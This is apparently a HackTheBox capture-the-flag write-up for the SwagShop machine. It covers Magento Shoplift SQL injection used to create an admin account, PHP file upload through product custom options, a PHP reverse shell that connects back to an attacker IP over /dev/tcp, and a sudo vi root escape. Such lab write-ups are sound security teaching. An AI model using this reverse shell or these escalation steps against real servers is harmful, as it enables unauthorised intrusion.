







# SwagShop -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** SwagShop (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-10-04

---

## TL;DR

### Magento Shoplift SQLi exploit created admin creds. Enabled symlinks and PHP file uploads through product custom options, uploaded a PHP reverse shell, then escaped to root via `sudo vi` (GTFOBins).
---
## Target info

- Host: `10.129.229.138`
- Services discovered: `80/tcp (http)`
---
## Enumeration



```bash
feroxbuster -u http://10.129.229.138:80/ -x php,html -w /usr/share/wordlists/dankyou_wordlist.txt -n
```



---
## Magento Shoplift SQLi

Used the Magento Shoplift SQLi PoC to create admin creds:



Created creds: `ypwq:123`

Logged in at `/index.php/admin`:



---
## PHP upload via product custom options

Enabled symlinks in Developer Settings (System > Configuration > Developer > Template Settings):



Checked page source to find `/index.php`:



In the admin panel: Catalog > Manage Products > Click product name > Custom Options > Add New Option. Set Input Type to `File` and Allowed File Extensions to `php`. Saved the product.

On the home page, clicked "5 x Hack The Box Square Sticker" -- now has a file upload field. Uploaded a PHP reverse shell and added to cart.

PHP shell:

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'"); ?>
```

Found the uploaded file by fuzzing:

```
http://swagshop.htb/media/custom_options/quote/s/h/
```



---
## Privilege escalation -- sudo vi

GTFOBins:

```bash
sudo /usr/bin/vi /var/www/html/test -c ':!/bin/bash' /dev/null
```

---
## Lessons & takeaways

- Magento Shoplift is an old but effective SQLi for creating admin users
- Product custom options with file upload + PHP extension = webshell
- `sudo vi` is a classic GTFOBins escape
